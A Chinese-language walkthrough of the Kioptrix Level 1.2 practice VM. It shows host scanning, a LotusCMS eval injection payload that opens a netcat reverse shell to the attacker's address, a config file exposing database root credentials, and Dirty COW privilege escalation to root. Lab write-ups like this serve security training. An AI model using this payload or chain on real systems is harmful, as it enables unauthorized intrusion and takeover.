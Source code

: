 # KIOPTRIX LEVEL 1.2 (#3)

![image-20230208012456505](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012456505.png)

安装好，虚拟机使用桥接模式，和物理机划分到同一个网段。

kali运行arp-scan -l 扫描同网络上的所有主机，确定靶机的ip。端口探测后生成报告![image-20230208012826498](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012826498.png)

查看80端口web服务![image-20230208012853777](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012853777.png)

![image-20230208012927828](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208012927828.png)

使用的是lotuscms，搜索了历史版本的漏洞，有一个公开了的RCE，payload如下

```
POST /index.php HTTP/1.1
Host: 192.168.3.115
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

page=index');${system('nc -e /bin/sh 192.168.3.201 12345')};#"
```

漏洞成因是代码里使用了eval函数，后续的system函数会执行恶意的命令，从eval函数的代码执行到远程命令执行

读取gconfig.php

```
<?php
        error_reporting(0);
        /*
                A sample Gallarific configuration file. You should edit
                the installer details below and save this file as gconfig.php
                Do not modify anything else if you don't know what it is.
        */

        // Installer Details -----------------------------------------------

        // Enter the full HTTP path to your Gallarific folder below,
        // such as http://www.yoursite.com/gallery
        // Do NOT include a trailing forward slash

        $GLOBALS["gallarific_path"] = "http://kioptrix3.com/gallery";

        $GLOBALS["gallarific_mysql_server"] = "localhost";
        $GLOBALS["gallarific_mysql_database"] = "gallery";
        $GLOBALS["gallarific_mysql_username"] = "root";
        $GLOBALS["gallarific_mysql_password"] = "fuckeyou";

        // Setting Details -------------------------------------------------

if(!$g_mysql_c = @mysql_connect($GLOBALS["gallarific_mysql_server"], $GLOBALS["gallarific_mysql_username"], $GLOBALS["gallarific_mysql_password"])) {
                echo("A connection to the database couldn't be established: " . mysql_error());
                die();
}else {
        if(!$g_mysql_d = @mysql_select_db($GLOBALS["gallarific_mysql_database"], $g_mysql_c)) {
                echo("The Gallarific database couldn't be opened: " . mysql_error());
                die();
        }else {
                $settings=mysql_query("select * from gallarific_settings");
                if(mysql_num_rows($settings)!=0){
                        while($data=mysql_fetch_array($settings)){
                                $GLOBALS["{$data['settings_name']}"]=$data['settings_value'];
                        }
                }

        }
}

?>

```

拿到shell后，wget下载脏牛提权

![image-20230208104049307](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208104049307.png)

![image-20230208104113650](C:\Users\root\AppData\Roaming\Typora\typora-user-images\image-20230208104113650.png)

成功添加用户，并添加到root组

ssh登录。用脏牛提权生成的账号firefart登录，获取到root权限，通关


